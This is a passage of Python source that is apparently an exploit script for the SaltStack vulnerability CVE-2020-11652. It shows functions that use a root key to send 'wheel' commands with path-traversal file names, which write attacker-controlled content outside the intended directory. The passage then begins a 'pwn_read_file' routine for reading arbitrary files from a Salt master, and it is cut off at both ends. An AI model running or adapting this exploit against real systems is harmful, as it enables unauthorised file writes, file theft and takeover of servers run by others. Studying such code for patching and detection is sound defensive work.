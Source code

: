 ```python
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)

    pp(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write2(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'config.update_config',
    'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'yaml_contents': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652.conf')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def pwn_read_file(channel, root_key, path, master_ip):
    print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
```